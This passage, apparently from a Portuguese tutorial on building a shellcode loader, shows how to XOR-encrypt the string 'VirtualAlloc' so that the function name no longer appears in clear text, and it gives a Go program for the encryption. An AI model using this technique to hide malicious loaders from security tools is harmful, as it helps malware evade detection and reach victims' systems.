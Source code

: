 Isso acontece, pois o nome da função está escrita em texto claro na função `GetProcAddress`. Para contornar esta situação, podemos reutilizar do **XOR *encrypt*** que utilizamos no *shellcode*. 

Portanto, criaremos duas variáveis:

- `unsigned char cVA[] = {};` - que receberá um *array* de *bytes* representando a string "VirtualAlloc" depois do **XOR *encrypt***;
- `unsigned int cVALen = sizeof(cVA);` - que conterá o tamanho da *array*.

Para aplicar o **XOR *encrypt*** na *string*, faremos um novo programa em Go, que receberá a string com a chave e salvará o resultado em um arquivo.

```go
package main

import (
        "fmt"
        "os"
)

func xorEncryptDecrypt(data []byte, key string) []byte {
        keyLen := len(key)
        keyBytes := []byte(key)
        encrypted := make([]byte, len(data))

        for i := 0; i < len(data); i++ {
                encrypted[i] = data[i] ^ keyBytes[i%keyLen]
        }

        return encrypted
}

func processString(inputString, outputFile, key string) error {
        data := append([]byte(inputString), 0)
        encrypted := xorEncryptDecrypt(data, key)

        outFile, err := os.Create(outputFile)
        if err != nil {
                return fmt.Errorf("failed to create output file: %w", err)
        }
        defer outFile.Close()

        _, err = outFile.Write(encrypted)
        if err != nil {
                return fmt.Errorf("failed to write to output file: %w", err)
        }

        return nil
}

func main() {
        if len(os.Args) != 4 {
                fmt.Printf("Usage: %s <input string> <output file> <key>\n", os.Args[0])
                return
        }

        inputString := os.Args[1]
        outputFile := os.Args[2]
        key := os.Args[3]

        err := processString(inputString, outputFile, key)
        if err != nil {
                fmt.Printf("Error: %v\n", err)
        }
}
```